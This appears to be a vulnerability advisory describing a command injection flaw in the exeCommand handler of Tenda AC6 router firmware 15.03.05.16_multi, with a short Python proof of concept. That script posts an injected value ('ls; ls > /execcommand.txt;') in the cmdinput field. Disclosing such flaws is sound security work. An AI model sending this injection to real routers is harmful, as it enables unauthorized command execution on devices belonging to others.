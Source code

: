 # Command Injection Vulnerability in Tenda AC6 Firmware

## Vulnerability Overview
There is a **Command Injection** vulnerability in the **Tenda AC6 firmware version 15.03.05.16_multi**. The vulnerability exists in the **exeCommand** function of the firmware. Specifically, the **cmdinput** parameter, which is passed via HTTP, allows attackers to inject arbitrary commands into the system. This vulnerability allows attackers to execute arbitrary system commands, potentially gaining unauthorized access or causing other system misconfigurations.

The issue arises from improper sanitization of user-supplied input, where an attacker can exploit the **cmdinput** parameter to inject and execute arbitrary commands. For example, an attacker could inject commands like `ls` to list directories, or use other commands to read sensitive files or execute malicious actions remotely. ![Root Cause of Command Injection Vulnerability](images/1.png)

## Affected Versions
- Tenda AC6 Firmware version 15.03.05.16_multi

## Impact
- Command Injection
- Unauthorized access to the system
- Potential for information disclosure or system compromise


## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/exeCommand"

data = {
    "cmdinput": "ls; ls > /execcommand.txt;"  # Example command injection
}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
